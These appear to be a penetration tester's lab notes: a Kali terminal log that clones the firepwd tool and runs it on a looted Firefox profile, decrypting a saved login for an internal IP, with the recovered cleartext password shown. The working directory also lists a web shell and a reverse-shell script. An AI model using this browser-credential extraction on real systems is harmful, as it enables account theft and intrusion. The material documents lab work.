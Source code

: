gitclone
```bash
┌──(root💀gobots)-[31May2024 16:58:25]-[/home/kali/SUT/ADMIN-VPN_net]                                       
└─# git clone https://github.com/lclevy/firepwd                                                                                                                                                             
Cloning into 'firepwd'...                                                                                                                                                                                   
remote: Enumerating objects: 88, done.                                                                                                                                                                      
remote: Counting objects: 100% (8/8), done.                                                                                                                                                                 
remote: Compressing objects: 100% (8/8), done.                                                                                                                                                              
remote: Total 88 (delta 2), reused 3 (delta 0), pack-reused 80                                                                                                                                              
Receiving objects: 100% (88/88), 239.08 KiB | 3.92 MiB/s, done.                                                                                                                                             
Resolving deltas: 100% (41/41), done.                                                                                                 ```
installing requirements
```                                                             
┌──(root💀gobots)-[31May2024 16:59:14]-[/home/kali/SUT/ADMIN-VPN_net]                                                                                                                                       
└─# ls                                                                                                                                                                                                      
92f2rlly.default-release  cmd.aspx  firepwd  liby.so  powercat.ps1                                                                                                                                          

┌──(root💀gobots)-[31May2024 16:59:15]-[/home/kali/SUT/ADMIN-VPN_net]                                                      
└─# cd firepwd                                                                                                                        
┌──(root💀gobots)-[31May2024 16:59:18]-[/home/kali/SUT/ADMIN-VPN_net/firepwd]                                      
└─# ls                                                                                                                                                                                                      
LICENSE  firepwd.py  mozilla_db  mozilla_pbe.pdf  mozilla_pbe.svg  readme.md  requirements.txt                                        
┌──(root💀gobots)-[31May2024 16:59:18]-[/home/kali/SUT/ADMIN-VPN_net/firepwd]                                                                                                                               
└─# pip install -r requirements.txt                                                                                                                                                                         
Collecting PyCryptodome>=3.9.0 (from -r requirements.txt (line 1))                                                                                                                                          
  Downloading pycryptodome-3.20.0-cp35-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (3.4 kB)                                                                                                
Requirement already satisfied: pyasn1>=0.4.8 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 2)) (0.4.8)                                                                                  
Downloading pycryptodome-3.20.0-cp35-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (2.1 MB)                                                                                                           
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 2.1/2.1 MB 16.4 MB/s eta 0:00:00                                                                                                                                
Installing collected packages: PyCryptodome                                                                                                                                                                 
Successfully installed PyCryptodome-3.20.0                                                                                                                                                                  
WARNING: Running pip as the 'root' user can result in broken permissions and conflicting behaviour with the system package manager. It is recommended to use a virtual environment instead: https://pip.pypa
.io/warnings/venv                                                                                                                                                                                          
```
Finding passwords
```bash
┌──(root💀gobots)-[31May2024 16:59:47]-[/home/kali/SUT/ADMIN-VPN_net/firepwd]                                                                                                                               
└─# python firepwd.py -d ../92f2rlly.default-release                                                                                                                                                        
globalSalt: b'cae2ea108280ef5ffc375e32045fd403e1246e07'                                                                                                                                                     
 SEQUENCE {                                                                                                                                                                                                 
   SEQUENCE {                                                                                                                                                                                               
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2                                                                                                                                                     
     SEQUENCE {                                                                                                                                                                                             
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'cb413440ef41dd818b0c129020766ad2f56e9c6aeff43998008b01d1df9df4e8'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'5ba91c8074a99de2d3035100bc68'
       }
     }
   }
   OCTETSTRING b'aa4f7be4b152e593b5e38f118541bd89'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'dc4fe7b1c2d5667f3ed22190ea964ac74a3a5d94a5f39ebb2d592c0b0f879046'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'df003b4afcf1cec4e57cd1902fd3'
       }
     }
   }
   OCTETSTRING b'48657c1b000f5864376c58c3c239a612b494dc10680dd5bbfd7307a9614ae57a'
 }
clearText b'522a37319d07e3ec70b37fc2614a16f4c40883836e6286040808080808080808'
decrypting login/password pairs
http://172.16.1.11:8888:b'',b'sRVJAz837u'

```

![[Pasted image 20240531130255.png]]
